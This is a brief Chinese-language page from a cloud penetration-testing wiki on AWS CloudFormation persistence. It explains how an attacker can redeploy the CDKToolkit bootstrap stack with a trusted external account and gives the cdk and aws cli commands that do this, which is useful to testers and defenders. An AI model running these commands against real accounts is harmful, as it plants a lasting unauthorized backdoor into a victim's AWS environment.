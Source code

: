 # AWS - Cloudformation 持久化

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

更多信息请访问：

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK 会部署一个名为 `CDKToolkit` 的 CFN 堆栈。该堆栈支持一个参数 `TrustedAccounts`，允许外部账户将 CDK 项目部署到受害者账户中。攻击者可以滥用这一点，通过使用 AWS cli 带参数重新部署该堆栈，或使用 AWS CDK cli，为自己获取对受害者账户的无限期访问权限。
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}

